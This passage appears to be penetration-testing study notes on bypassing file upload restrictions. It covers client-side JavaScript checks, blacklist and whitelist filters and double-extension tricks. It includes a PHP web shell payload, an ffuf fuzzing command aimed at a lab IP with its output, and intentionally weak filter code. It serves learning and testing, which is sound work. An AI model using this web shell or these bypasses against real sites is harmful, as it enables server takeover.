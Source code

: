 	- The main restriction will be the JS code `onchange="checkFile(this)"` . To get the details of this function, go to the browser's `Console` and search for `checkFile`
	- Edit the HTML code to be:
		``` HTML
		<input type="file" name="uploadFile" id="uploadFile" onchange="">
		```
### Blacklist Filters
Testing the file extension against a blacklist of extension to determine whether the upload request should be blocked.
- Code example:
``` PHP
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');
if (in_array($extension, $blacklist)) { echo "File type not allowed"; die(); }
```
- The blacklist is not comprehensive for PHP.
- The comparison above is also case-sensitive.

Fuzzing the request with ffuf:
1. Prepare the HTTP request
``` HTTP
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywRdo2lC1tHQrJPoV

------WebKitFormBoundarywRdo2lC1tHQrJPoV
Content-Disposition: form-data; name="uploadFile"; filename="shellFUZZ"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>
------WebKitFormBoundarywRdo2lC1tHQrJPoV--
```
2. Use ffuf
``` bash
$ ffuf -w phpExtensions.txt -request request.txt -u http://167.71.131.167:32653/upload.php
.phpt                   [Status: 200, Size: 26, Words: 3, Lines: 1, Duration: 105ms] // successful hit
.php                    [Status: 200, Size: 21, Words: 3, Lines: 1, Duration: 108ms]
.pgif                   [Status: 200, Size: 26, Words: 3, Lines: 1, Duration: 2457ms] // successful hit
.php8                   [Status: 200, Size: 26, Words: 3, Lines: 1, Duration: 2458ms] // successful hit
.phar                   [Status: 200, Size: 26, Words: 3, Lines: 1, Duration: 2456ms] // successful hit
```
> Not all extensions will work with all web server configurations, try several extensions to get one that successfully executes PHP code.
### Whitelist Filters
A whitelist is generally more secure than a blacklist. The web server would only allow the specified extensions, and the list would not need to be comprehensive in covering uncommon extensions.
- **Techniques**:
	- `Double extension`, (e.g. `shell.jpg.php`).
		- If the `regex` only checks whether the file name `contains` the extension and not if it actually `ends` with it.
			``` PHP
			$fileName = basename($_FILES["uploadFile"]["name"]);
			if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) { echo "Only images are allowed"; die(); }
			```
	- `Reverse Double Extension`, (e.g. `shell.php.jpg`).
		- If The `regex` is strict.
			``` PHP
			if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
			```